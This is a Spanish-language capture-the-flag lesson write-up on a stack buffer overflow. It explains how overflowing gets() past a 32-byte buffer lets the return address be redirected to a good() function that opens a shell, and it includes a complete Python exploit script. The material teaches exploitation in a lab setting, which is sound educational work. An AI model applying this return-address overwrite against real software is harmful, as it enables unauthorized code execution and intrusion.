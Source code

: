 La idea principal a la que queremos llegar es que puedes **corromper** la **dirección de retorno** de la misma manera que corrompimos las variables de la pila en la lección anterior.

Para continuar con la lección, haz que el programa falle corrompiendo la dirección de retorno.

----

### Retorno a `good()`
Para finalizar el nivel, obtén la dirección de `good()` del desensamblador y redirige la ejecución hacia ella.
Una vez que lo hayas hecho, deberías tener un shell. Usa el comando `cat` para leer el archivo de la bandera y completar el nivel.

## Explotando la Dirección de Retorno

La vulnerabilidad en `gets()` permite escribir más allá de los 32 bytes del buffer, sobrescribiendo el **RBP anterior** y la **dirección de retorno**. Nuestro objetivo es sobrescribir la dirección de retorno con la dirección de `good()` (`0x401358`) para que `ret` salte a esta función.

### Pasos para la Explotación
1. **Calcular el offset**:
   - Buffer: 32 bytes.
   - RBP anterior: 8 bytes.
   - Total: **40 bytes** para llegar a la dirección de retorno.
2. **Obtener la dirección de `good()`**:
   - Usando `gdb`, determinamos que `good()` está en `0x401358`.
3. **Construir el payload**:
   - 40 bytes de relleno (por ejemplo, `A` repetidas).
   - 8 bytes con la dirección de `good()` en formato little-endian.
4. **Enviar el payload**: Automatizamos con un script en Python.



```python
import interact
import struct

# Convierte un entero en 8 bytes (little-endian)
def p64(n):
    return struct.pack('Q', n)

# Convierte 8 bytes en un entero
def u64(s):
    return struct.unpack('Q', s)[0]

# Inicializa la interacción con el proceso
p = interact.Process()

# Dirección de la función good()
good_addr = 0x401358
# Offset para llegar a la dirección de retorno (32 bytes buffer + 8 bytes RBP)
offset = 40

# Construye el payload: 40 bytes de relleno + dirección de good()
payload = (b'A' * offset) + p64(good_addr)

# Espera el prompt y envía el payload
p.readuntil(b'Enter data: ')
p.sendline(payload)

# Espera la visualización de la pila
p.readuntil(b'------------------------------------------------------------\n')

# Cambia a modo interactivo para usar la shell
p.interactive()
```